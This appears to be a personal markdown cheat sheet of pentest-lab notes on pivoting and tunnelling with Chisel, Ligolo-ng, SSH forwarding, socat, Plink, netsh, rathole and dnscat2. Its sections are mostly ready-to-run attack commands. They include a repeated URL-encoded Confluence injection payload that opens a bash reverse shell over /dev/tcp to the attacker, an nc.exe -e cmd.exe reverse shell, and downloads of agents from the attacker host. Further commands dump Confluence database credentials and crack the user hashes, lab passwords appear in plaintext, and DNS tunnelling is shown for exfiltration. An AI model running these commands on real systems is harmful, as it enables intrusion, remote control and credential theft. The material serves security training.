


## Pivoting

A very Interesting and important concept - (Chisel + Proxychain)

### Links

- [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)
- [Chisel](https://github.com/jpillora/chisel)
- [SSH Tunneling Explained](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)
### Remote Port Forwarding (Opening an Internal port to us)

```
Transfer chisel to Victim
# Proxychains # In end, append 'socks5 127.0.0.1 1080' in end of file.
# For HTML you will have to append 'html 127.0.0.1 1080' at the end of the file.
nano /etc/proxychains4.conf

# On Victim # Only Change Kali IP and port 445 as a port you want to open up.
./chisel.exe client <KALI IP>:1337 R:1080:127.0.0.1:<445>

# To run above in background # change location of chisel.exe, and 80 to desired port
powershell.exe
$scriptBlock = { Start-Process C:\Users\viewer\Desktop\chisel.exe -ArgumentList @('client','<ATTACKERs IP>:1337','R:127.0.0.1:80:<Vitctim IP>:80') }
Start-Job -ScriptBlock $scriptBlock

# On Attacking # All values Static here
./chisel server -p 1337 --reverse &

-> Use 127.0.0.1 and Port 1080 for Scanning and further enumeration.
```

### Reverse Socks Proxy (Pivoting to Other Network)

```
Transfer Chisel to the Victim machine
./chisel client <KALI IP>:1337 R:socks &
# On Victim but Without losing shell 
$scriptBlock = { Start-Process C:\users\public\chisel.exe -ArgumentList @('client','<ATTACKERs IP>:1337','R:1080:socks') }
Start-Job -ScriptBlock $scriptBlock

# ON Attacking
./chisel server -p 1337 --reverse --socks5 # without background job
./chisel server -p 1337 --reverse --socks5 & # Use this when using proxychain
# Start enumerating using proxychains nmap <IP>, etc commands.

Now for other networks try:
proxychains nmap, proxychains psexec, proxychains dirbuster, etc
try everything just with proxychains command once you get access to another network
```


### More Chisel Notes

```
# On Kali
./chisel server -p 8001 --reverse --socks5

# For standard socks proxy
.\chisel_1.9.1_windows_amd64.exe client 192.168.45.164:8001 R:socks

# For reverse shell
.\chisel_1.9.1_windows_amd64.exe client 192.168.45.164:8001 0.0.0.0:9999:192.168.45.164:9999

# Add to Proxychains.conf file

socks5 127.0.0.1 1080

#Random Variations
./chisel client 192.168.45.225:8001 R:socks

0.0.0.0:8000:192.168.45.225:8000

./chisel server -p 8000 --reverse

./chiselwin.exe client 192.168.45.219:8000 R:8001:127.0.0.1:9001
./chiselwin.exe server -p 9001 --socks5

./chisel client localhost:8001 socks

```
### Ligolo-ng

```
 iwr -uri http://192.168.45.219:9090/nmap-7.94-setup.exe -Outfile nmap-7.94-setup.exe

iwr -uri http://192.168.45.219:9090/agent.exe -Outfile agent.exe
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up

./proxy -selfcert  


.\agent.exe -connect 192.168.45.219:11601 -ignore-cert

session
1
ifconfig
sudo ip route add 172.16.105.0/24 dev ligolo

tunnel_start

tunnel_start --tun ligolo1 #If more than one tunnel


ip route del 122.252.228.38/32


Setup a listener if needed for a reverse shell through a pivot:

listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp

```

## SShuttle

```

socat TCP-LISTEN:2222,fork TCP:10.4.229.215:22
sshuttle -r database_admin@192.168.229.63:2222 10.4.229.0/24 172.16.229.0/24
smbclient -L //172.16.229.217/ -U hr_admin --password=Welcome1234


```


### Windows SSH


```

sudo systemctl start ssh
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.229.64
where ssh
ssh.exe -V
ssh -N -R 9998 kali@192.168.45.226
ss -ntplu
tail /etc/proxychains4.conf
socks5 127.0.0.1 9998

proxychains psql -h 10.4.50.215 -U postgres
\l
```

### Socat

```

curl http://192.168.232.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.239/4444%200%3E%261%27%29.start%28%29%22%29%7D/

ip addr
ip route
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
D@t4basePassw0rd!
dbc:postgresql://10.4.232.215:5432/confluence
postgres

socat -ddd TCP-LISTEN:2345,fork TCP:10.4.232.215:5432
psql -h 192.168.232.63 -p 2345 -U postgres
\l
\c confluence
select * from cwd_user;
hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt

hr_admin = Welcome1234
rdp_admin = P@ssw0rd!
database_admin = sqlpass123

socat TCP-LISTEN:2222,fork TCP:10.4.232.215:22
ssh database_admin@192.168.232.63 -p2222

```

### SSH Local Port Forwarding

```

curl http://192.168.210.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.182/4444%200%3E%261%27%29.start%28%29%22%29%7D/

python3 -c 'import pty; pty.spawn("/bin/bash")'

ssh database_admin@10.4.210.215
sqlpass123
ip addr
ip route
for i in $(seq 1 254); do nc -zv -w 1 172.16.210.$i 445; done

ssh -N -L 0.0.0.0:4455:172.16.210.217:4242 database_admin@10.4.210.215


curl http://192.168.210.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.182/4455%200%3E%261%27%29.start%28%29%22%29%7D/

ss -ntplu

smbclient -p 4455 -L //192.168.210.63/ -U hr_admin --password=Welcome1234
smbclient -p 4455 //192.168.210.63/scripts -U hr_admin --password=Welcome1234
get Provisioning.ps1

```


### SSH Dynamic Port Forwarding

```

curl http://192.168.210.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.182/4444%200%3E%261%27%29.start%28%29%22%29%7D/


python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215
sqlpass123

tail /etc/proxychains4.conf
tail /etc/proxychains.conf
socks5 192.168.50.63 9999

proxychains smbclient -L //172.16.210.217/ -U hr_admin --password=Welcome1234
proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.210.217
proxychains nmap -vvv -sT -p4800-4900 -Pn 172.16.210.217

By default, Proxychains is configured with very high time-out values. This can make port scanning really slow. Lowering the **tcp_read_time_out** and **tcp_connect_time_out** values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.

```


### SSH Remote Port Forwarding

```

sudo systemctl start ssh
sudo ss -ntplu

curl http://192.168.229.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.164/4455%200%3E%261%27%29.start%28%29%22%29%7D/

python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 127.0.0.1:4444:10.4.229.215:4444 kali@192.168.45.164
ss -ntplu
psql -h 127.0.0.1 -p 2345 -U postgres
\l

To close socket listening:
netstat -np
lsof -np $pid
gdb -p $pid
call close($fileDescriptor) //does not need ; at end.
quit


```


### SSH Remote Dynamic Port Forwarding

```

curl http://192.168.229.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.222/4455%200%3E%261%27%29.start%28%29%22%29%7D/


python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh -N -R 9998 kali@192.168.45.164
sudo ss -ntplu
tail /etc/proxychains4.conf
tail /etc/proxychains.conf
socks5 127.0.0.1 9998
proxychains nmap -vvv -sT --top-ports=20 -Pn -n 10.4.229.64
proxychains nmap -vvv -sT -p9000-9100 -Pn -n 10.4.229.64
proxychains ./ssh_remote_dynamic_client -i 10.4.229.64 -p 9062


ssh -R 1080 kali@192.168.45.196


```


#### Visual Examples of SSH Tunneling






### Plink

```

sudo systemctl start apache2
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/

powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
nc -nvlp 4446
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446

find / -name plink.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe


C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4

ss -ntplu

xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833

```

### Netsh

```

xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.208.64

netsh interface portproxy add v4tov4 listenport=4545 listenaddress=192.168.208.64 connectport=4545 connectaddress=10.4.208.215

netstat -anp TCP | find "4545"
netsh interface portproxy show all
sudo nmap -sS 192.168.208.64 -Pn -n -4545

netsh advfirewall firewall add rule name="port_forward_ssh_4545" protocol=TCP dir=in localip=192.168.208.64 localport=4545 action=allow

sudo nmap -sS 192.168.208.64 -Pn -n -p4545

ssh database_admin@192.168.208.64 -p4545

database_admin = sqlpass123


netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.208.64

./netsh_exercise_client.bin -i 192.168.208.64 -p 4545


```

### Bore

```
rathole

If you want to reverse shell, need two of these bad boys.

First:

Run rathole server on victim machine:

./rathole server.toml

######################
# server.toml
[server]
bind_addr = "0.0.0.0:2333" # `2333` specifies the port that rathole listens for clients

[server.services.my_nas_ssh]
token = "123" # Token that is used to authenticate the client for the service. Change to a arbitrary v>
bind_addr = "0.0.0.0:5000" # `5202` specifies the port that exposes `my_nas_ssh` to the Internet

######################
then run client on kali:

######################
./rathole client.toml

######################
# client.toml
[client]
remote_addr = "192.168.216.246:2333" # The address of the server. The port must be the same with the po>

[client.services.my_nas_ssh]
token = "123" # Must be the same with the server to pass the validation
local_addr = "127.0.0.1:4444" # The address of the service that needs to be forwarded

######################

Then, for example if you need to forward a port 8000 from victim to get to internal port, flip it.

######################

So, run server on kali:

######################

./rathole server.toml


bind_addr = "0.0.0.0:2334" # `2333` specifies the port that rathole listens for cl>

[server.services.my_nas_ssh]
token = "123" # Token that is used to authenticate the client for the service. Cha>
bind_addr = "0.0.0.0:8000" # `5202` specifies the port that exposes `my_nas_ssh`

######################
Then run client on victim:

./rathole client.toml

# client.toml
[client]
remote_addr = "192.168.45.219:2334" # The address of the server. The port must be the same with the port in `server.bind_a>

[client.services.my_nas_ssh]
token = "123" # Must be the same with the server to pass the validation
local_addr = "127.0.0.1:8000" # The address of the service that needs to be forwarded


```
### DNS

```

cd dns_tunneling
cat dnsmasq.conf
sudo dnsmasq -C dnsmasq.conf -d
sudo tcpdump -i ens192 udp port 53


resolvectl status
nslookup exfiltrated-data.feline.corp

cat dnsmasq_txt.conf
sudo dnsmasq -C dnsmasq_txt.conf -d
nslookup -type=txt www.feline.corp

nslookup -type=txt give-me.cat-facts.internal


dnscat2
---
sudo tcpdump -i ens192 udp port 53
dnscat2-server feline.corp
cd dnscat/
./dnscat feline.corp
dnscat2-server feline.corp
windows
window -i 1
?
listen --help


listen 127.0.0.1:4455 172.16.2.11:445
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234

listen 0.0.0.0:4646 172.16.229.217:4646
./dnscat_exercise_client -i 192.168.229.7 -p 4646


```
